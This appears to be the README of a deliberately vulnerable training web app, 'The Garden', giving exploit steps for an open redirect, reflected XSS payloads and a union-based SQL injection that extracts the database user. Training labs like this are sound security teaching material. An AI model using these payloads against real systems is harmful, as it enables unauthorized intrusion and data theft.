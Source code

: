 ## About The Garden

It's vulnerable by purpose.


## Open Redirect

Visit: http://thegarden.local.net/login?r=http://10degres.net and log in.

## Information disclosure

- 

## IDOR

- 

## XSS

Visit http://thegarden.local.net/?q=111%27%22--%3E%3Cu%3E111 and ensure that HTML is interpreted.
Then use a XSS payload: <svg/onload=prompt()>

Visit http://thegarden.local.net/reset-password/111?email=111%27%22--%3E%3Cu%3E111 and ensure that HTML is interpreted.
Then use a XSS payload: 111"><svg/onload=prompt()>

## CSRF

- 

## SQL injection

Visit http://thegarden.local.net/login and login in.
Visit http://thegarden.local.net/orders and click on the details link of on order.
The following API call is performed http://thegarden.local.net/api/orders/29
Add a quote to the end of the path http://thegarden.local.net/api/orders/29%27 
You'll get some error messages:
"Illuminate\Database\QueryException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''29''' at line 1 (SQL: SELECT * FROM orders WHERE id='29'') in file /Users/gwen/Public/thegarden/vendor/laravel/framework/src/Illuminate/Database/Connection.php on line 742""
Check the number of columns the query as:
is ok: http://thegarden.local.net/api/orders/29%27%20order%20by%2015%23
is too much: http://thegarden.local.net/api/orders/29%27%20order%20by%2016%23
Use the `union` technic: http://thegarden.local.net/api/orders/29%27%20union%20select%20null,null,null,null,null,null,null,null,null,null,null,null,null,null,null%20order%20by%20id%23
Final payload: %27%20union%20select%20null,current_user(),null,null,null,null,null,null,null,null,null,null,null,null,null%20order%20by%20id%23

